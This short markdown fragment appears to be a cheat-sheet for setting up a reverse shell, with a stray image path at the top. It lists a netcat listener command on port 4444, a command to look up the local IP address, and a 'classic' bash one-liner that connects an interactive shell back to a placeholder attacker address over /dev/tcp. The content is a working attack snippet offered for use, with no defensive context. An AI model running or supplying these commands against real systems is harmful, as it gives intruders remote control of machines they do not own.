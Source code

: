 1) 

- `nc -lvnp 4444`

2) 

You need to get your IP :

- `ip -br a`

# Classic /bin/bash reverse shell

- `bash -c 'bash -i >& /dev/tcp/<ip_addr>/4444 0>&1'`

